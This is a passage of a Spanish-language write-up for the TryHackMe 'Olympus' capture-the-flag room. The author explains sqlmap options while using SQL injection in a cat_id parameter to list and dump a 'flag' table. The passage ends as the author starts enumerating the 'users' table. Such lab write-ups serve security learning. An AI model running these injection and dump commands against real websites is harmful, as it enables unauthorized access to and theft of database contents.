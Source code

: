 De un primer vistazo la tabla *flag* promete felicidad, así que vamos a por ella.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sqlmap -u 'http://olympus.thm/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus -T flag --columns
```

Significado de las flags:

* `-T`&nbsp;: el nombre de la tabla que queremos analizar.
* `--columns`&nbsp;: le pedimos que nos muestre la estructura de la tabla.

```
[...]
Database: olympus
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
+--------+--------------+
[...]
```

Volcamos su contenido

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sqlmap -u 'http://olympus.thm/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus -T flag  --dump
```

Significado de las flags:

* `--dump`&nbsp;: nos vuelca los registros de la tabla.

```
[...]
Database: olympus
Table: flag
[1 entry]
+---------------------------+
| flag                      |
+---------------------------+
| flag{xxxxxxxxxxxxxxxxxxx} |
+---------------------------+
[...]
```

Ha caído la primera.

Del listado de tablas que nos ha devuelto **sqlmap** solo hemos sacado partido a la tabla *flag*, así que vamos a por *user*.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sqlmap -u 'http://olympus.thm/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus -T users  --columns
```
